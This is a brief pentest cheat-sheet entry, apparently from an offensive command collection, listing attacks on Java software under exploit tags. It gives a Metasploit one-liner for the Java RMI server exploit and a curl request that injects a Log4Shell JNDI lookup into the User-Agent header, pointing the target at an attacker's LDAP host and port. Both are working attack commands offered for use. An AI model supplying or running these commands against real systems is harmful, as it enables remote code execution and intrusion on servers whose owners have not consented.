 # Java

% java

## RMI
#platform/linux #target/remote  #cat/ATTACK/EXPLOIT  
```
msfconsole -x "use exploit/multi/misc/java_rmi_server"
```

## log4shell find
#platform/linux #target/remote  #cat/ATTACK/EXPLOIT  
```
curl -H 'User-Agent: ${jndi:ldap://<lhost>:<lport>}' <ip>
```
